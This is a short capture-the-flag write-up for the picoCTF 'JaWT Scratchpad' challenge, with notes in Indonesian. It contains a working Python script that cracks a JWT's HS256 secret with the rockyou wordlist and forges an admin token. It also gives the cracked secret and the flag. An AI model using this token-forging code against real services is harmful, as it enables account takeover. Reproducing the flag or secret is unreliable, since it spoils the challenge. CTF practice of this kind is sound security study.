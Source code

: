 <h1>JaWT Scratchpad</h1>
<h3>Description</h3>
<p>Check the admin scratchpad! https://jupiter.challenges.picoctf.org/problem/58210/ or http://jupiter.challenges.picoctf.org:58210</p>
<h3>Solution</h3>

<p>Login sesuai nama user yang diminta</p>

```python3
import base64
import hmac
import hashlib
import json

jwt_encode = "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam90In0.LKK1d2cdN4MEnCQ5YGDdPv818z4ADGu26H9OrLLBnB8"

def header_data(header):
    return base64.urlsafe_b64encode(header.encode()).decode().rstrip("=")
header_base64 = header_data('{"typ":"JWT","alg":"HS256"}')

def payload_data(payload):
    return base64.urlsafe_b64encode(payload.encode()).decode().rstrip("=")
payload_base64 = payload_data('{"user":"jot"}')

message = f"{header_base64}.{payload_base64}".encode()
with open("../Tools/rockyou.txt", "r",errors="ignore") as file:
    for line in file:
        secret_key = line.strip('\n')
        signature = hmac.new(secret_key.encode(), message, hashlib.sha256).digest()
        signature_base64 = base64.urlsafe_b64encode(signature).decode().rstrip("=")
        result = f"{header_base64}.{payload_base64}.{signature_base64}"
        if result == jwt_encode:
            print(f"Secret key found: {secret_key} - Success!")
            payload_base64 = payload_data('{"user":"admin"}')
            message = f"{header_base64}.{payload_base64}".encode()
            signature = hmac.new(secret_key.encode(), message, hashlib.sha256).digest()
            signature_base64 = base64.urlsafe_b64encode(signature).decode().rstrip("=")
            result = f"{header_base64}.{payload_base64}.{signature_base64}"
            print(result)
            break
        else:
            pass

```

<p>Secret : <b>ilovepico</b>, salin jwt ganti ke jwt di link challenge</p>
<h3>Flag</h3>
<pre>
picoCTF{jawt_was_just_what_you_thought_44c752f5}
</pre>
